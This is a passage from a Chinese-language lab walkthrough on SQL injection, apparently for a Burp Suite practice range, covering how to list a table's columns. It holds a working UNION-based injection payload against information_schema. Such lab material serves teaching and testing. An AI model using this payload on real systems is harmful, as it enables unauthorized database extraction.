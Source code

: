 ![图片 33](assets/%E5%9B%BE%E7%89%87%2033.png) 

### 2.10.3. **查询所有字段**

这里会有很多的表，在正常测试的情况下，不确定的情况下，需要寻找关键字然后进行查找。

注意这里的表，bp靶场生成的时候是不同的，需要替换表。

```
payload：' union select column_name,null from information_schema.columns where table_name='users_cgnxjc'--
```

![图片 34](assets/%E5%9B%BE%E7%89%87%2034.png) 
